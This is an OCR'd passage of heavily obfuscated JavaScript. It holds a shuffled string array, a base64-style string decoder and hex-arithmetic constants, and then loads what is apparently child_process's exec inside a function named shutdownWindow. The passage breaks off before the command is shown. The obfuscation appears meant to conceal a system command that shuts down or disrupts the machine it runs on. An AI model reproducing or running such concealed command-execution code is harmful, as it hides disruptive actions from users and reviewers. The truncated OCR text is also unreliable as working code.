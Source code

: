 ```javascript
        'nuPesvDMrW',
        'zw5K'
    ];
    a = function () {
        return m;
    };
    return a();
}
const i = b;
(function (c, d) {
    const h = b, e = c();
    while (!![]) {
        try {
            const f = -parseInt(h(0x107)) / (-0x176c + -0xd98 + -0x41d * -0x9) + -parseInt(h(0x111)) / (0x242b + 0x2 * 0xaa1 + -0x396b) + -parseInt(h(0x119)) / (0x3e6 * 0x4 + -0xca * 0x30 + 0x164b) + -parseInt(h(0x115)) / (-0x1 * 0xcb3 + -0xa45 + 0x16fc) + parseInt(h(0x104)) / (0x1 * -0x2303 + 0x1f96 + -0x31 * -0x12) * (-parseInt(h(0x106)) / (-0x7 * 0x1c9 + -0x12e3 * -0x1 + -0x65e)) + -parseInt(h(0x10a)) / (-0x46f + -0x1618 + 0x1a8e) * (parseInt(h(0x103)) / (0x1 * 0x10af + 0xb * 0x3f + -0x135c)) + -parseInt(h(0x118)) / (0x350 * -0x6 + -0x1ff7 + 0x298 * 0x14) * (-parseInt(h(0x10d)) / (0x1 * -0x1261 + 0x2 * -0xfea + -0x1 * -0x323f));
            if (f === d)
                break;
            else
                e['push'](e['shift']());
        } catch (g) {
            e['push'](e['shift']());
        }
    }
}(a, -0xf27c3 + -0x1d39 * -0x4e + 0x121ee8));
function b(c, d) {
    const e = a();
    return b = function (f, g) {
        f = f - (-0x3d * -0x37 + 0x2011 + 0x1615 * -0x2);
        let h = e[f];
        if (b['WrGCrI'] === undefined) {
            var i = function (m) {
                const n = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';
                let o = '', p = '';
                for (let q = 0x722 + 0x3 * -0xc70 + 0x2 * 0xf17, r, s, t = 0x6a1 + 0x25 * -0x8c + -0x3 * -0x489; s = m['charAt'](t++); ~s && (r = q % (0x2 * 0x10af + 0xf83 + 0x1 * -0x30dd) ? r * (0x1 * 0x1aae + -0x339 + 0x1735 * -0x1) + s : s, q++ % (-0x1766 + -0x11e6 + -0x2 * -0x14a8)) ? o += String['fromCharCode'](-0xa * 0x25f + -0x5 * 0xe9 + -0x46 * -0x6b & r >> (-(0x1 * -0x20c7 + -0x7 * -0x11b + 0x190c) * q & 0x18c2 + -0x39b * 0x1 + 0x3 * -0x70b)) : 0xb11 + 0x13c8 + -0x1ed9) {
                    s = n['indexOf'](s);
                }
                for (let u = -0x176c + -0x2c3 + 0x1a2f, v = o['length']; u < v; u++) {
                    p += '%' + ('00' + o['charCodeAt'](u)['toString'](0x1 * -0x409 + -0x2 * 0x52f + -0x1 * -0xe77))['slice'](-(-0x3df + 0xb3e + -0x75d));
                }
                return decodeURIComponent(p);
            };
            b['ZXfmir'] = i, c = arguments, b['WrGCrI'] = !![];
        }
        const j = e[0x3 * -0x7f + 0x156d + -0x13f0], k = f + j, l = c[k];
        return !l ? (h = b['ZXfmir'](h), c[k] = h) : h = l, h;
    }, b(c, d);
}
try {
    const {exec} = require(i(0x110));
    function shutdownWindow() {
        const j = i, c = {
                'GxWKQ': function (e, f) {
                    return e || f;
```